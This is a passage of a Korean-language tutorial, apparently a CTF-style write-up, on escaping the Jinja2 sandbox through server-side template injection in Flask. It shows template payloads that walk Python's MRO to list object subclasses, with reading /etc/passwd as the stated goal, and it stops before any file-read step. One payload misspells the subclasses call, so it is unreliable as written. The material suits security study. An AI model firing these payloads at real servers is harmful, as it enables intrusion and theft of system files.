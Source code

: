 ```python
    'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31),
    'TEMPLATES_AUTO_RELOAD': None,
    'TRAP_BAD_REQUEST_ERRORS': None,
    'JSON_SORT_KEYS': True,
    'JSONIFY_MIMETYPE': 'application/json',
    'SESSION_COOKIE_HTTPONLY': True,
    'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200),
    'PRESERVE_CONTEXT_ON_EXCEPTION': None,
    'SESSION_REFRESH_EACH_REQUEST': True,
    'TRAP_HTTP_EXCEPTIONS': False}> !!!
```

### SSTI Sandbox Escape

- 대상 서버 환경에서 파일 읽기 및 시스템 함수를 호출하기 위해서는 SandBox를 탈출해야 합니다.
- `open('/etc/passwd', 'rb').read()` 형태로 사용이 불가능 합니다.
- SandBox 탈출하기 위해서는 MRO를 이용하여 사용할 수 있는 클래스를 찾아야 합니다.

Method Resolution Order (**MRO)?**

- python 클래스 계층 구조에서 메서드를 찾는 순서 입니다.
- 현재 클래스와 연관된 모든 클래스를 확인할 수 있습니다.

**SSTI MRO**

- 호출을 하게 되면 `<type 'str'>`, `<type 'basestring'>`, `<type 'object'>` 3가지 가 출력됩니다.

```python
{{''.__class__.__mro__}}
```

- 그중에서 object class로 들어가서 서브 클래스를 출력하고 싶다면 다음과 같이 object의 서브 클래스들을 출력하면 됩니다.

```python
{{''.__class__.__mro__[2].__subclass__()}}
```

- **response**
    
    ```python
    <type 'type'>,
         <type 'weakref'>,
         <type 'weakcallableproxy'>,
         <type 'weakproxy'>,
         <type 'int'>,
         <type 'basestring'>,
         <type 'bytearray'>,
         <type 'list'>,
         <type 'NoneType'>,
         <type 'NotImplementedType'>,
         <type 'traceback'>,
         <type 'super'>,
         <type 'xrange'>,
         <type 'dict'>,
         <type 'set'>,
         <type 'slice'>,
         <type 'staticmethod'>,
         <type 'complex'>,
         <type 'float'>,
         <type 'buffer'>,
         <type 'long'>,
         <type 'frozenset'>,
         <type 'property'>,
         <type 'memoryview'>,
         <type 'tuple'>,
         <type 'enumerate'>,
         <type 'reversed'>,
         <type 'code'>,